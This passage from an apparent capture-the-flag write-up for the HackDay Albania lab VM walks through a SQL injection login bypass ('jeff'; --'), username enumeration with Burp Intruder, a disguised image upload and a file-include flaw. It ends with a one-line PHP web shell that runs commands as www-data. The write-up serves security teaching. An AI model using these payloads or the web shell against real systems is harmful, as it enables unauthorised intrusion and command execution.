 should bypass the check (note the extra space at the end).

If the query works, the following SQL statement should be executed and the password check is commented out:

```SQL
select junk from users where username='username'; -- ' and password='';
```

I tried to use users like user and admin in the query but none of them worked so I fired up Burp Intruder again to do some username enumeration.

Inserting the SQL-Injection payload as username und marking the missing username as injection point Burp was able to identify a user named `jeff`.

[![Login](/img/vulnhub_hackday_albania/user_enumeration_thumb.png)](/img/vulnhub_hackday_albania/user_enumeration.png)

So the final payload to bypass the login is

```
jeff'; --
```

which results in the query

```SQL
select junk from users where username='jeff';
```

We are greeted with a ticket system with the ability to upload files. I first tried to upload a simple PHP shell but the application responds with an error message saying only graphic files with certain extensions are allowed. Trying to simply change the `Content-Type` header does not work so I decided to upload a normal image to see how the application behaves.
After uploading we can call the ticket details and check out the image url.
The image is included with the following URL which renders the image as text so this could be a simple PHP include vulnerability.

```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=image.jpg
```

![pwned](/img/vulnhub_hackday_albania/image_as_text.png)

So I just renamed my shell.php to shell.jpg and tried the upload again. After viewing the image in the ticket with

```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=shell.jpg&cmd=id
```

we are able to execute commands as the www-data user.

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

shell.php content:

```PHP
<?php echo shell_exec($_GET['cmd']); ?>
```
